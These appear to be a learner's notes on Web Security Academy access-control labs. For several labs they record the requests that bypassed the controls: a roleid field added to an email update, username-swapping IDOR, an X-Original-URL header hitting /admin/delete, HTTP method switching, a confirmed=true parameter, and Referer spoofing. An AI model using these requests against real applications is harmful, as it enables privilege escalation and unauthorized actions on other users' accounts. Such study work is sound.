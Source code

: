 # Encounters

# User role can be modified in account. 
## Observations
- Can login 
- Updating email results in the following:
```
{
  "username": "wiener",
  "email": "test@email.com",
  "apikey": "6L3Ug6z68HrWakuMzDxPLXduFMjXIssF",
  "roleid": 1
}
```
- Going to try to supply the additional argument of roleid and see if I can change it. 
```
{"email":"test@email.com",
"roleid":2
}
```
Worked

# User ID controlled by request parameter
- Pretty straight forward idor-style vuln - just change your username to the target carlos to get his API key. 

# User controlled variable with data leakage
- The app appears to check the session id against the user supplied username in the URL when I supplied carlos it provides a 302 back to the login page but DOES load carlo's page on the way to logging me out. 

# URL-based access control can be circumvented
- Param miner finds X-Original-URL is valid. 
- /admin in that value allows access to the admin panel even though we're requesting /. 
- use this to take admin actions. 
- path is provided by the header and parameters provided by the url path in the original request. 
```
GET /?username=carlos HTTP/2
Host: 0ad700f6038befaa81002a42006b00a5.web-security-academy.net
Cookie: session=cfOsf3NOkotltLek2la6zmpzJgt6FCXO
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad700f6038befaa81002a42006b00a5.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Original-Url: /admin/delete
```

# Method based access controls
- Found that you can change the method and run admin commands. Would require prior knowledge or bruteforcing of endpoints and params. 
```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0aa700d504f9a92f80f04e9500e60058.web-security-academy.net
Cookie: session=SAGIgVBqkbRyqpj2wSACu0U4mX5mQf8A
```

# Multi-step promotion process that doesn't have any protection
- Do the process as admin
- Redo the process as a user to see how the access controls fail. 
- The confirmatin parameter bypasses the session validation. 
```
action=upgrade&confirmed=true&username=wiener
```

# Referer-based access control
- Simply having the /admin url in the referer along with the right params allows you to bypass the access controls to upgrade accounts. 

